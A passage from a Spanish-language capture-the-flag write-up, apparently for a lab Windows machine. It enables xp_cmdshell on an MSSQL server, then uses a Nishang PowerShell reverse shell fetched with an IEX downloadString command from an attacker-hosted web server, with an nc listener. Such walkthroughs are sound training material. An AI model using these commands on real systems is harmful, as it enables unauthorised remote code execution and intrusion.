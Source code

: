 El mensaje de error aqui es claro, y si es una option avanzada tenemos que modificar la config de esta option.

```bash
sp_configure "show advanced", 1
reconfigure
sp_configure "xp_cmdshell", 1
reconfigure
xp_cmdshell "whoami"
#Output

querier\mssql-svc
```

Ahora si. Ya podemos lanzar comandos a nivel de sistema. La idea ahora seria meternos en el sistema con una reverse shell.
## Explotacion de vulnerabilidad & Ganando Acceso {-}

### Entablar una reverse shell de typo Powershell {-}

Aqui vamos hacer uso de las powershells reversas de Nishang

```bash
git clone https://github.com/samratashok/nishang
cd nishang
cd Shells
cp Invoke-PowerShellTcp.ps1 /home/.../content/PS.ps1
```

En el fichero PS.ps1, añadimos el invoke del script al final del fichero

```Powershell
Invoke-PowershellTcp -Reverse -IPAddress 10.10.14.8 -Port 443
```

Esto nos permite lanzar el Script directamente despues de descargamiento del fichero en la maquina victima


### Enviamos y ejecutamos la reverse shell {-}

1. montamos un http server con python

    ```bash
    python3 -m http.server 80
    ```

1. En la maquina de atacante en una nueva shell

    ```bash
    rlwrap nc -nlvp 443
    ```

1. en la mssql shell

    ```bash
    xp_cmdshell "powershell IEX(New-Object Net.WebClient).downloadString(\"http://10.10.14.8/PS.ps1\")"
    ```
